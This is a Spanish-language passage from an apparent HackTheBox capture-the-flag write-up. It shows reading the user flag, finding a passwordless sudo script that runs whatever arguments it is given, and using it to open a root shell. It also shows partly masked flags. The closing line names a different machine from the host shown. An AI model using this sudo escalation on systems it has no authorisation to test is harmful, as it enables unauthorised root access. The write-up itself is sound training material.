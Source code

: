 ```bash

```

Accedemos a la flag y leemos su contenido con cat

```bash
takis@tenten:~$ cat user.txt 
9df4680d7b9ce6ac1***************
```

### Escalada Privilegios

* * *

Listando posibles archivos que podamos ejecutar con privilegio de root vemos un script `/bin/fuckin`

```bash
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```

Observamos su contenido y al ejecutarlo te pide que le pases 4 argumentos los cuales ejecutará. Probamos...

```bash
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
takis@tenten:~$ /bin/fuckin whoami
takis
```
Como lo podemos ejecutar como root directamente tratamos de lanzar una bash con privilegios de root

```bash
takis@tenten:~$ sudo /bin/fuckin bash
root@tenten:~# whoami
root
```

Ya sólo nos queda leer la flag de root

```bash
root@tenten:~# cd /root
root@tenten:/root# ls
root.txt
root@tenten:/root# cat root.txt 
9d350f5c396850014***************
```

Hemos completado la máquina **Devel** de HackTheBox!! Happy Hacking!!
